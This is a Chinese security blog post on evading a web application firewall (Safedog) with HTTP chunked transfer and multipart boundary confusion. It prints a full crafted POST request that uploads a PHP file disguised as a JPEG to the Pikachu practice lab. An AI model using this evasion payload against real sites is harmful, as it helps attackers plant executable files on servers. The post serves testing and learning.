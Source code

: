 #  某系统漏洞挖掘小记   
原创 伟大宝宝  白帽子社区团队   2024-08-06 23:41  
  
本文仅用于技术研究学习，请遵守相关法律，禁止使用本文所提及的相关技术开展非法攻击行为，由于传播、利用本文所提供的信息而造成任何不良后果及损失，与本账号及作者无关。  
  
**关于无问社区**  
  
  
无问社区致力于打造一个面向于网络安全从业人员的技术综合服务社区，可**免费**获取安全技术资料，社区内技术资料知识面覆盖全面，功能丰富。  
  
  
特色功能：划词解析、调取同类技术资料、基于推荐算法，为每一位用户量身定制专属技术资料。  
  
无问社区-官网：http://wwlib.cn  
  
无问社区站内阅读  
链接：  
  
http://www.wwlib.cn/index.php/artread/artid/9960.html  
  
#### http分块传输绕过   
  
  
  
http分块传输⼀直是⼀个很经典的绕过⽅式，只是在近⼏年分块传输⼀直被卡的很死，很多waf都开始加  
  
⼊了检测功能，所以的话，分块传输这⾥也不是很好使，但是配合边界混淆，好使的⼀批。  
  
  
单纯http分块传输（已经⽆法绕过）  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuaaLzHq83Gk7hgJ6CYnxxsjDSwnrCwAcYMk0K2FTSXg8sFUI7bLqeuA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuQjBibaRib21waJIN90xlHVa0bP9cbkzz1KGAbNMwHW7MjfrS9JWZp3hw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuobiczicV6evffHmhzxpnicKzDTaYfuibJWLHvtuyvwrOR3ldGpdzdDkX1w/640?wx_fmt=png&from=appmsg "")  
  
##### boundary边界混淆绕过  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuGcpuhEpw8ddxUylrwJ93hFvWZ2Jaial4HQgU9lFJJBx0cW5LJKw0lGQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGulLicoKMh6PtZPyeX7qeK7boOYkWCk0iaqH8Yt0p1GsK3tQ6ORyUasAVA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuJXNB2HvrpB2POg76icjzY4soicyiaibjTBuA94qSMZUPaLf37HvW7WWs2A/640?wx_fmt=png&from=appmsg "")  
  
#### 配合开源的⽅式来进⾏绕过  
  
  
  
**开源绕过**  
  
在百度上有很多开源的⽅式来绕过安全狗，但是⼀⼀测试发现，绕过效果⾮常之垃圾，⼏乎都遇到了狗的阻拦，所以这⾥就经过变种+fuzz，来实现绕过安全狗，直接贴代码。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuMVpriblcRPKYQCx80rQszdiav5VaLTl8Fw7K0XnmP7eQbmekqibQUKBibg/640?wx_fmt=png&from=appmsg "")  
```
POST /pikachu-master/vul/unsafeupload/clientcheck.php HTTP/1.1
Host: 192.168.172.161
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------378605579232816195651620102739
Content-Length: 448
Origin: http://192.168.172.161
Connection: close
Referer: http://192.168.172.161/pikachu-master/vul/unsafeupload/clientcheck.php
Cookie: PHPSESSID=sop5homauph2bdfeidn6ttv8l1
Upgrade-Insecure-Requests: 1

-----------------------------378605579232816195651620102739
Content-Disposition: form-data; name="uploadfile";fagfhaiofnalkvjoaffufile name=fjalfmavlaa; filename="1.jpg;.php
Content-Type: image/jpeg
GIF89a
]\'
d]\['
/\'
\]']\'
/\]'
w<?php phpinfo();
-----------------------------378605579232816195651620102739
Content-Disposition: form-data; name="submit"
开始上传
-----------------------------378605579232816195651620102739--
```  
  
  
  
  
[7月27日hvv情报推送](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247485937&idx=1&sn=5f99189c2f9b640466c7920726f25350&chksm=c2bc7397f5cbfa81e6721fed1d4c5c24b0343c528b05c292b061318fbff60d909d0d27481b34&scene=21#wechat_redirect)  
  
  
[hvv必备技术资料合集](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247485904&idx=2&sn=19779731ee2987ad68783e7f1678bb25&chksm=c2bc73b6f5cbfaa03d841e3a6f8dddbf0b3cba10775d3b4839dba118f27f355469aa92b53af4&scene=21#wechat_redirect)  
  
  
[Windows 权限维持学习](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247485864&idx=3&sn=a2c9d4a4f49d90f6e25f45ceacc58296&chksm=c2bc73cef5cbfad87a015e80b12a6f8eb4aaa1580c056430ea81a83d983a244a443442cab9b3&scene=21#wechat_redirect)  
  
  
[总结|教育行业渗透打点](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247485327&idx=1&sn=0e5850ea499b72bc974d7ca8977d8883&chksm=c2bc7de9f5cbf4ffe68651163a8c8c072e5062d770ac9c9184627ad75bf004d98a76f77f376a&scene=21#wechat_redirect)  
  
  
[攻防利器-高危漏洞利用工具](http://mp.weixin.qq.com/s?__biz=MzkzNDQ0MDcxMw==&mid=2247484872&idx=1&sn=a6b586cef45ea12bc000bdd8b0ef9397&chksm=c2bc7faef5cbf6b86406055c6b8a77fbcc1e891cad7e57fbdfb97a49613fc172da6eeb96a550&scene=21#wechat_redirect)  
  
  
加入粉丝群  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/DK5OZOOglM6tSu0msictnctbSGUTJ2gGuLTtuBVZTkQYLWNf9biclE946vibpjSWC3fRYdE4ibnRGC4PWLicNsQY9jQ/640?wx_fmt=jpeg "")  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/DK5OZOOglM47PIpoBoeyJicibQ3PhuMAh5j2pc4VJqbWJWzhFSdDB2UocaClr1f3AkhLwF4kibZA6KbyPHwqEkjiaA/640?wx_fmt=gif&from=appmsg "")  
  
**点“阅读原文”，访问无问社区**  
  
  
  
